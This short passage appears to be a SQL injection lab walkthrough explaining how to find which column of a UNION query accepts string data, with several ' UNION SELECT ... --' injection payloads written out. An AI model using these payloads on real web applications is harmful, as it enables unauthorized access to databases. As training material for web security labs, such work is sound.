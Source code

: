 Generally, the interesting data that you want to retrieve will be in string form. Having already determined the number of required columns, you can probe each column to test whether it can hold string data by replacing one of the UNION SELECT payloads with a string value. In previous lab you would submit:

        ' UNION SELECT 'a',NULL,NULL--
        ' UNION SELECT NULL,'a',NULL--
        ' UNION SELECT NULL,NULL,'a'--
        
Payload
```sql
' UNION SELECT NULL,'Tz0F22',NULL--
```
        
        
